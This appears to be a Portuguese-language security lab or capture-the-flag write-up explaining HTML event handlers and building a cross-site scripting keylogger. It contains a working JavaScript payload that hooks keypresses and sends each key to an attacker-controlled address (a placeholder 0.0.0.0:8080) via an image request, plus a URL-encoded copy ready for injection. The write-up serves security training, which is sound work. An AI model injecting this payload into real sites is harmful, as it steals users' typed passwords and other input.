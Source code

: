 #### Objetivo

O objetivo desta *task* é criar um *key logger* que irá capturar todas as teclas digitadas por um invasor dentro da página, e enviá-las para a máquina sob controle do atacante.

#### Conhecimento Base

Os atributos globais de manipulador de evento (*event handler*) em HTML são atributos que podem ser adicionados a qualquer elemento HTML para definir o comportamento de um elemento quando um evento específico ocorre. Por exemplo, você pode usar um manipulador de eventos para definir o que acontece quando um usuário clica em um elemento, passa o mouse sobre um elemento, pressiona uma tecla do teclado quando um elemento tem foco, e muito mais.

Alguns exemplos de manipuladores de eventos globais são:

- `onkeypress`: Este manipulador é acionado quando um usuário pressiona uma tecla e depois a solta.
- `onclick`: Este manipulador é acionado quando um usuário clica em um elemento.
- `ondblclick`: Este manipulador é acionado quando um usuário clica duas vezes em um elemento.
- `onmouseover`: Este manipulador é acionado quando um usuário move o cursor do mouse sobre um elemento.
- `onmouseout`: Este manipulador é acionado quando um usuário move o cursor do mouse para fora de um elemento.
- `onkeydown`: Este manipulador é acionado quando um usuário pressiona uma tecla do teclado.
- `onload`: Este manipulador é acionado quando um elemento, como uma imagem ou um script, terminou de carregar.

Cada um desses manipuladores de eventos pode ser usado para chamar uma função JavaScript que define o que acontece quando o evento ocorre.

A única diferença entre um atributo *event handler* e um *event listener* é que os *event handlers* são uma maneira mais antiga e menos flexível de responder a eventos, pois são inseridos de forma estática diretamente no HTML, enquanto os *event listeners* oferecem mais controle e permitem múltiplas funções de *callback* para o mesmo evento no mesmo elemento. 

Eventos que capturam teclas pressionadas, geralmente armazenam este *buffer* em **UTF-16**, para que estes caracteres sejam transformados em uma *string*, pode-se utilizar o método estático `String.fromCharCode()`.

#### Exploração

Para montar este ataque, podemos utilizar o *event handler* `onkeypress` para enviar a tecla pressionada para uma função, que por sua vez vai transformar em uma *string* e enviar via requisição utilizando o *constructor* `Image()` para a máquina sob controle do atacante.

```html
<script>
	document.onkeypress = function KeyLogger(inp) {
		key_pressed = String.fromCharCode(inp.which);
		new Image().src = "http://0.0.0.0:8080/?"+key_pressed;
	}
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09document.onkeypress%20%3D%20function%20KeyLogger%28inp%29%20%7B%0A%09%09key_pressed%20%3D%20String.fromCharCode%28inp.which%29%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3F%22%2Bkey_pressed%3B%0A%09%7D%0A%3C%2Fscript%3E
```
